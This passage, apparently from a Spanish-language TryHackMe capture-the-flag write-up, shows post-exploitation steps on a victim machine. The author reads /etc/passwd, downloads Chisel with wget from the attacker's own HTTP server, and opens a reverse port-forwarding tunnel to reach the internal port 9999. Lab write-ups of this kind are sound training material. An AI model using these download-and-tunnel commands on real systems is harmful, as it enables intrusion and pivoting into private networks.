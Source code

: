 En el archivo **`/etc/passwd`** veo que ese usuario es **`john`**.

![picture](/assets/images/tryhackme/breakm23.png)

Voy a realizar **`Port Forwarding`** con **`Chisel`** para ver que está corriendo por ese puerto. Necesito descargarme **`Chisel`** en la máquina víctima, para ello, creo un servidor **`HTTP`** con **`Python3`** en la ruta donde tengo instalado **`Chisel`** en mi máquina local, y me lo descargo desde el directorio **`/tmp`** en la máquina víctima.

- Máquina local

```bash
python3 -m http.server 1234
```

- Máquina víctima

```bash
cd /tmp
wget http://'Nuestra IP':1234/chisel
chmod +x chisel
```

Una vez con **`Chisel`** descargado, primeramente ejecutamos el servidor en la máquina local, y después el cliente en la máquina víctima.

- Máquina local

```bash
chisel server --port 5555 --reverse
```

- Máquina víctima

```bash
./chisel client 'Nuestra IP':5555 R:9999:localhost:9999
```

![picture](/assets/images/tryhackme/breakm24.png){: w="600" h="300" }

![picture](/assets/images/tryhackme/breakm25.png){: w="600" h="300" }

Y se habrá establecido el redireccionamiento de puertos.

Busco mi dirección de localhost junto al puerto en el navegador, y encuentro lo que está corriendo por el puerto **`9999`** de la máquina víctima.
